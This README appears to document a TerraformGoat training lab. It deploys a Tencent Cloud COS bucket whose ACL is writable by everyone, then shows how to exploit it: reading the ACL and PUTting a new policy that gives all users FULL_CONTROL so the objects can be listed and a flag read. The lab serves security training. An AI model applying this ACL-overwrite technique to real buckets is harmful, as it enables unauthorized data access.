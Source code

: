 # Tencent Cloud COS Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the Tencent Cloud COS bucket ACL is writable.

After you build an environment using Terraform, users can access COS resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/object_storage_service/bucket_acl_writable/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_app_id`,`tencentcloud_account_id`,`tencentcloud_secret_id`and`tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> * You can see your account ID and APPID in the [account information](https://console.cloud.tencent.com/developer) of Tencent Cloud console.
> * You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied

![image](../../../images/1652347780.png)

Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![image](../../../images/1652347858.png)

Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![image](../../../images/1652348202.png)

Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

In the response message, you can see the flag.

![image](../../../images/1652348264.png)

## Destroy the environment

```shell
terraform destroy
```
